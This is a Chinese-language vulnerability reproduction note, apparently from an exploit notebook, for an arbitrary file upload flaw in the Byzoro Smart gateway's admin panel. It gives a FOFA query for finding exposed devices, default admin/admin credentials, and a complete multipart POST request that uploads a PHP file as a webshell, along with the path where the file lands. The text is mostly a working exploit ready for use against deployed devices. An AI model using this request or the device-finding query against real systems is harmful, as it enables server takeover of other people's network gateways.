 # 百卓Smart后台任意文件上传漏洞

# 一、漏洞简介
百卓Smart是一种系列品牌上网行为管理设备，多种应用功能集于一身，包括网络应用封堵、流量控制、链路负载均衡、网页分类阻断、上网内容审计、防火墙、VPN等。该网关后台存在任意文件上传漏洞，攻击者可通过该漏洞获取服务器控制权限。

# 二、影响版本
+ 百卓Smart

# 三、资产测绘
+ fofa`app="byzoro-Smart"`
+ 特征

![1699974927531-d5f2d49c-f9c3-417f-abc7-7bbcaba6f53d.png](./img/KzgUSQ8c-_hpC3fM/1699974927531-d5f2d49c-f9c3-417f-abc7-7bbcaba6f53d-084613.png)

# 四、漏洞复现
1. 使用默认账号`admin/admin`登录后台，获取登录后的`cookie`

![1699975787899-0d8a4ef8-3b73-4d82-b3fe-b8d38c7e9b52.png](./img/KzgUSQ8c-_hpC3fM/1699975787899-0d8a4ef8-3b73-4d82-b3fe-b8d38c7e9b52-981218.png)

2. 使用上一步获取的cookie替换上传webshell

```plain
POST /useratte/web.php? HTTP/1.1
Host: xx.xx.xx.xx
Cookie: PHPSESSID=6fca23a63591d8742708a4c50308f150
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; Trident/7.0; rv:11.0) like GeckoAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------42328904123665875270630079328
Content-Length: 611
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="file_upload"; filename="2.php"
Content-Type: application/octet-stream

<?php phpinfo(); ?>
-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="id_type"

1
-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="1_ck"

1_radhttp
-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="mode"

import
-----------------------------42328904123665875270630079328
```

![1699975835584-e542cf6b-0f16-4851-a019-0693c1a35825.png](./img/KzgUSQ8c-_hpC3fM/1699975835584-e542cf6b-0f16-4851-a019-0693c1a35825-685758.png)

3. 上传文件位置

```plain
/upload/2.php
```

![1699975873888-77ee6853-8e05-490e-bc05-d2f80b95be6e.png](./img/KzgUSQ8c-_hpC3fM/1699975873888-77ee6853-8e05-490e-bc05-d2f80b95be6e-062968.png)



> 更新: 2024-02-29 23:57:13  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/znskqftupnfub0ea>